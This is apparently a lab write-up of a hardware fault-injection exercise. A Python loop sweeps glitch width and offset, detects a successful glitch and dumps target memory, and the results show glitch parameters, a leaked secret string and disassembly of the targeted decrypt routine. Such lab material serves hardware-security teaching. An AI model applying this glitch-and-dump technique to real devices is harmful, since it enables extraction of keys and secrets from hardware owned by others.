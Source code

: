 ```python
            fig.canvas.draw()

            #Device is slow to boot?
            reboot_flush()
        else:
            time.sleep(0.05)
            output = target.read(timeout=2)
            if ("7821" in output) or ("p" in output): # HINT: look for some of what we sent over
                print("Glitched!\n\tExt offset: {}\n\tOffset: {}\n\tWidth: {}".format(i, scope.glitch.offset, scope.glitch.width))
                plt.plot(scope.glitch.width, scope.glitch.offset, '+g')
                gc.add("success", (scope.glitch.width, scope.glitch.offset, scope.glitch.ext_offset))
                fig.canvas.draw()
                broken = True 
                for __ in range(500): # dump memory
                    num_char = target.in_waiting()
                    if num_char:
                        my_print(output)
                        output = target.read(timeout=50)
                time.sleep(1)
                break
            else:
                gc.add("normal", (scope.glitch.width, scope.glitch.offset, scope.glitch.ext_offset))
```

### Defining success and failure
- if the i variable is glitched to part of the text we inputted, then it will print that out. Check to see if the output contains part of the input string (I check for the last 4 characters in this case: "7821")

### Result


	Ext offset: 9625
	Offset: -7.8125 (~-8)
	Width: 3.90625 (~4)

**output**
```
6720736265747267206762206f686c207a767978210x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x00Don't forget to buy milk!0x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x00
```
Secret Leaked: Don't forget to buy milk!

What if the secret isn't a recognizable, english phrase (but an actual cryptographic key)?
- it should be surrounded by null bytes
- or not, sometimes its hard to tell

### What is being Glitched
```c
void decrypt_data(uint8_t* buffer, uint8_t len)
{
 800032c:	b5f0      	push	{r4, r5, r6, r7, lr}
	// Apply rot-13 to each byte
	int i, j;
	for(i = 0; i < len; i++)
	{
		// Search for character inside input array
		for(j = 0; j < num_chars; j++)
 800032e:	4c0a      	ldr	r4, [pc, #40]	; (8000358 <decrypt_data+0x2c>)
 8000330:	4401      	add	r1, r0
	for(i = 0; i < len; i++)
```